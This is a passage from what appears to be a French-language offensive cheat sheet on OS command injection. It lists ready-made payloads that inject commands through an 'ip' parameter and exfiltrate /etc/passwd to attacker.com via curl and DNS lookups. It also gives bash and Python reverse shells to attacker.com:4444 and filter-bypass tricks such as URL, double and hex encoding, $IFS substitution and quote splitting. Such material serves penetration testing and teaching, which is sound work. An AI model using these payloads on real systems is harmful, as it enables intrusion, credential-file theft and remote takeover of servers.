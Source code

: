 | `$(())` | Évaluation arithmétique | `$(($(id)))` |

#### Techniques d'exploitation

1. **Injection basique** :
   ```
   # Paramètre original
   ip=127.0.0.1
   
   # Injection
   ip=127.0.0.1; id
   ```

2. **Exfiltration de données** :
   ```
   # Utilisation de curl/wget pour envoyer des données
   ip=127.0.0.1; curl -d "data=$(cat /etc/passwd)" https://attacker.com
   
   # Utilisation de DNS pour l'exfiltration
   ip=127.0.0.1; ping $(cat /etc/passwd | base64).attacker.com
   ```

3. **Établissement de reverse shell** :
   ```
   # Bash
   ip=127.0.0.1; bash -c 'bash -i >& /dev/tcp/attacker.com/4444 0>&1'
   
   # Python
   ip=127.0.0.1; python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker.com",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
   ```

#### Contournement des filtres

1. **Encodage** :
   ```
   # URL encoding
   ip=127.0.0.1%3Bid
   
   # Double encoding
   ip=127.0.0.1%253Bid
   
   # Hex encoding
   ip=127.0.0.1;$(echo -e "\x69\x64")
   ```

2. **Substitution de variables** :
   ```
   # Utilisation de variables d'environnement
   ip=127.0.0.1;$IFS$9id
   
   # Concaténation de chaînes
   ip=127.0.0.1;i''d
   ```
